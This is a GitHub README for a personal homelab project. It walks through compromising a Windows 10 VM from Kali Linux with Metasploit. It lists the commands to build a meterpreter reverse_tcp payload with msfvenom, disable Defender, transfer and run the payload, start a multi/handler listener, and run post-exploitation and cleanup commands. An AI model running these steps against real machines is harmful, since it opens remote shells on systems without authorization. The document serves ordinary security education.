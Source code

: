 # Kali-Metasploit-Project-Homelab

# Metasploit Penetration Testing Project

## 📌 Overview
For my project I demonstrated the use of **Metasploit Framework** to exploit a **Windows 10 VM** using a **Kali Linux VM** as the attacker. It covers the full penetration testing process, from setting up the environment to executing post-exploitation techniques.

⚠️ **Disclaimer:** This project is for educational and ethical hacking purposes only. Unauthorized access to computer systems is illegal. Always obtain permission before testing.

## 📸 Screenshots of My Metasploit Project

### 1️⃣ Kali Linux Attacking the Windows 10 VM|Successful Exploit Session: 
https://github.com/AndreeSalvo/Kali-Metasploit-Project-Homelab/blob/main/Kali%20Linux%20Attacking%20the%20Windows%2010%20VM%20Successful%20Exploit%20Session.png

### 2️⃣ Windows 10 Target VM|File explorer w/ the payload:
https://github.com/AndreeSalvo/Kali-Metasploit-Project-Homelab/blob/main/Payload%20into%20the%20file%20explorer.png?raw=true

### 3️⃣ Windows 10 Target VM|CMD prompt executed payload:
https://github.com/AndreeSalvo/Kali-Metasploit-Project-Homelab/blob/main/Executed%20the%20payload.png?raw=true


---

## 🔧 Installation & Setup

### **1️⃣ Install VMware Workstation Pro**
- Download and install VMware Workstation Pro from [VMware’s official site](https://www.vmware.com/products/workstation-pro.html).

### **2️⃣ Set Up Virtual Machines**
#### **Kali Linux VM (Attacker)**
- Download the latest **Kali Linux** ISO from [Kali’s official website](https://www.kali.org/).
- Install Kali on VMware and ensure **Metasploit Framework** is installed:
  ```bash
  sudo apt update && sudo apt install metasploit-framework -y

Windows 10 VM (Target)
- Install a Windows 10 virtual machine.
- Disable Windows Defender to prevent automatic deletion of the payload.

3️⃣ Configure Network Settings
I used the Bridged Adapter for both VMs to allow network communication.
Check IP addresses:
ip a   # On Kali
ipconfig   # On Windows (Command Prompt)

🎯 Exploitation Steps
1️⃣ Generate Payload (Malicious Executable)
Run the following msfvenom command on Kali to create a reverse shell payload:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_Kali_IP> LPORT=4444 -f exe > payload.exe

2️⃣ Transfer Payload to Windows 10
Use a USB drive:
- sudo cp payload.exe /media/kali/USB_NAME/
- python3 -m http.server 8080
- http://<Your_Kali_IP>:8080/payload.exe

3️⃣ Start the Metasploit Listener
Launch Metasploit and set up the exploit:
msfconsole #start metasploit
- use exploit/multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST <Your_Kali_IP>
- set LPORT 4444
- exploit

4️⃣ Execute Payload on Windows
Run payload.exe on Windows. If successful, Meterpreter will open:
meterpreter >

🔥 Post-Exploitation Techniques
Once inside Meterpreter, try these:

Check system info:
- sysinfo
- getuid
- screenshot

🛑 Cleanup & Exit
To remove traces and exit:
- rm C:\\Users\\Public\\payload.exe
- exit
- sessions -K

⚖️ Legal & Ethical Considerations
This project is intended for educational purposes only. Unauthorized penetration testing is illegal under the Computer Fraud and Abuse Act (CFAA). Only perform tests in authorized environments with explicit permission.

I hacked a windows 10 vm on my personal Virtual Machine! so if you plan on doing this, please be responisble! 

Always hack responsibly! 🚀

📜 License
This project is released under the MIT License. You are free to use, modify, and distribute it for educational purposes.
